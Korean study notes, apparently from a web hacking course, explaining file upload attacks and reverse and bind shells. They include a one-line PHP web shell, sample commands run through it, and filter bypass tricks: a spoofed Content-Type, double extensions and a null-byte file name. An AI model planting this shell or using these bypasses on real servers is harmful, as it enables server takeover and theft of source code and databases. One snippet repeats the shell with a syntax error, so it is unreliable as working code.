 File Upload 공격.

what : 공격자가 임의의 파일을 업로드 할 수 있는 공격

-> 웹 쉘.   
-> 서버 장악.
```
<?php echo system ($_GET['cmd']); ?>
```

** Point   
1. 우리가 웹 서버에서 실행할 수 있는 파일을 올려야 함.
2. 그걸 실행할 수 있어야 함.
-> 업로드된 파일의 위치를 알아야 함.

어떤 파일을 올려놓고 실행하는 방법이 뭐냐

malware.php 라는 파일이 있다면 접속하면 됨.   
☆웹 브라우저로 우리가 올린 파일을 요청하면 됨.

만약 취약점을 찾아다고 치고
php 서버인데 .php 확장자의 파일이 업로드가 된다면 취약하다.

근데 업로드된 파일의 위치 또한 알아야 함.


<?php
system($_GET('cmd'));
?>

위 파일을 올려서 
```
/webshell.php?cmd=ls
              cmd=id
              cmd=sudo nano ~~
```
99%의 해커들이 웹 쉘 공격에 성공했다면 하는 것!!   
->  소스코드 탈취.   
소스코드를 탈취했다는 것은 DB를 탈취했다는 것.   
db서버의 ip주소까지


** Reverse Shell
우리쪽에서 특정 포트를 열고 탈취한 서버를 내 컴퓨터로 접근하게 하는 것.

Bind Shell
Reverse Shell 과 반대. 우리쪽에서 탈취한 서버로 접근하는 것

인바운드 정책은 너무 빡셈.
아웃바운드 정책은 거의 없다싶이 함.

1.SQL Injection
2.HTML 소스코드 주석 살펴보기.

파일을 올려서 미리보기 사진을 우클릭해서 이미지 주소 복사를 눌러서 내가 올리는 사진의 주소를 확인한다.
그 다음에는 burp suite의 repeater에서 cmd 명령어 작성하면 됨.

그렇지만 한 줄 짜리 웹 쉘 코드는 그닥 의미없음.   
alert(1) 같은 느낌임.

그렇기 때문에 인터넷에 reverse shell 예제 코드를 확인해서 사용할 수 있음.

---

*Bypass Trick

1-- content-Type (데이터의 인코딩 방식을 알려주는 것)   
.php 파일을 막았을 경우 확장자를 보고 막는 것이 아니라 Content-Type을 보고 판단함.    
```
Content-Type : web shell/php -> image/jpeg 
```
2-- 업로드 되는 디렉토리 실행 X

3-- 블랙리스트 기반 필터링 우회.   
pphphp   


4-- 확장자 우회   
test.png.php   
test.php%00.png   
test.php.png   


